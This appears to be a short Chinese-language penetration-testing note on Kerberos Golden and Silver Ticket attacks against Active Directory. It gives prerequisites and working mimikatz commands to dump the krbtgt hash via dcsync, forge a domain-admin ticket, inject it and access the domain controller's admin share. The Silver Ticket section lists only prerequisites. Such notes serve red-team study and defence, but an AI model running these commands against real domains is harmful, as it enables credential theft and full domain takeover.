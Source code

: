 https://www.cnblogs.com/yuzly/p/10859520.html

### 黄金票据
> 利用条件
>
> 1.域名称
>
> 2.域的SID值
>
> 3.域的KRBTGT账户密码HASH（通常需要SYSTEM权限才能dump）
>
> 4.伪造用户名，可以是任意的

kerberos协议原理参考

[NTML认证与kerberos认证与PAC相关知识](https://blog.csdn.net/qq_41874930/article/details/108124366)

![](https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed/img/202206141128058.png)

域中每个用户的 Ticket 都是由 krbtgt 的密码 Hash 来计算生成的，因此只要获取到了 krbtgt 用户的密码 Hash ，就可以随意伪造 Ticket ，进而使用 Ticket 登陆域控制器，使用 krbtgt 用户 hash 生成的票据被称为 Golden Ticket，此类攻击方法被称为票据传递攻击。

首先获取krbtgt的用户hash:

```cmd
mimikatz "lsadump::dcsync /domain:xx.com /user:krbtgt"
```



利用 mimikatz 生成域管权限的 Golden Ticket，填入对应的域管理员账号、域名称、sid值，如下：

```cmd
kerberos::golden /admin:administrator /domain:ABC.COM /sid:S-1-5-21-3912242732-2617380311-62526969 /krbtgt:c7af5cfc450e645ed4c46daa78fe18da /ticket:test.kiribi


kerberos::ptt test.kiribi #导入刚才生成的票据


dir \\dc.abc.com\c$  #导入成功后可获取域管权限
```



### 白银票据

> 利用条件
>
> 1.域名称
>
> 2.域的SID值
>
> 3.域中的Server服务器账户的NTLM-Hash
>
> 4.伪造的用户名，可以是任意用户名.
>
> 5.目标服务器上面需要访问的kerberos服务
